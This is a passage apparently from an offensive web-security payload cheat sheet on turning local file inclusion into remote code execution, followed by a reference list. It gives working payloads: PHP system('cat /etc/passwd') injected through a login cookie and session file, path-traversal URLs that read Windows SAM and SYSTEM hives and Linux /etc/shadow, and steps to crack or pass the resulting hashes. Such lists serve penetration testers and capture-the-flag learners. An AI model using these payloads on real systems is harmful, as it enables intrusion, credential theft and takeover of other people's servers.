 Set the cookie to `<?php system('cat /etc/passwd');?>`

```powershell
login=1&user=<?php system("cat /etc/passwd");?>&pass=password&lang=en_us.php
```

Use the LFI to include the PHP session file

```powershell
login=1&user=admin&pass=password&lang=/../../../../../../../../../var/lib/php5/sess_i56kgbsq9rm8ndg3qbarhsbm27
```

## LFI to RCE via credentials files

This method require high privileges inside the application in order to read the sensitive files.

### Windows version

First extract `sam` and `system` files.

```powershell
http://example.com/index.php?page=../../../../../../WINDOWS/repair/sam
http://example.com/index.php?page=../../../../../../WINDOWS/repair/system
```

Then extract hashes from these files `samdump2 SYSTEM SAM > hashes.txt`, and crack them with `hashcat/john` or replay them using the Pass The Hash technique.

### Linux version

First extract `/etc/shadow` files.

```powershell
http://example.com/index.php?page=../../../../../../etc/shadow
```

Then crack the hashes inside in order to login via SSH on the machine.

### Flask Debug PIN via LFI
More info in: https://github.com/nhthongDfVn/payload/tree/master/Web/WERKZEUG 
Example:
1. https://sttt.gitlab.io/posts/tetctf-2020-web-writeup/?fbclid=IwAR0NpKYSvinfCw2-FeD2MsrEDVZGjKtwwf1202t7M2glrhnvEz1_L39zVQI (tsug0d challenge)


## References

* [OWASP LFI](https://www.owasp.org/index.php/Testing_for_Local_File_Inclusion)
* [HighOn.coffee LFI Cheat](https://highon.coffee/blog/lfi-cheat-sheet/)
* [Turning LFI to RFI](https://l.avala.mp/?p=241)
* [Is PHP vulnerable and under what conditions?](http://0x191unauthorized.blogspot.fr/2015/04/is-php-vulnerable-and-under-what.html)
* [Upgrade from LFI to RCE via PHP Sessions](https://www.rcesecurity.com/2017/08/from-lfi-to-rce-via-php-sessions/)
* [Local file inclusion tricks](http://devels-playground.blogspot.fr/2007/08/local-file-inclusion-tricks.html)
* [CVV #1: Local File Inclusion - SI9INT](https://medium.com/bugbountywriteup/cvv-1-local-file-inclusion-ebc48e0e479a)
* [Exploiting Blind File Reads / Path Traversal Vulnerabilities on Microsoft Windows Operating Systems - @evisneffos](http://www.soffensive.com/2018/06/exploiting-blind-file-reads-path.html)
* [Baby^H Master PHP 2017 by @orangetw](https://github.com/orangetw/My-CTF-Web-Challenges#babyh-master-php-2017)
* [Чтение файлов => unserialize !](https://rdot.org/forum/showthread.php?t=4379)
* [New PHP Exploitation Technique - 14 Aug 2018 by Dr. Johannes Dahse](https://blog.ripstech.com/2018/new-php-exploitation-technique/)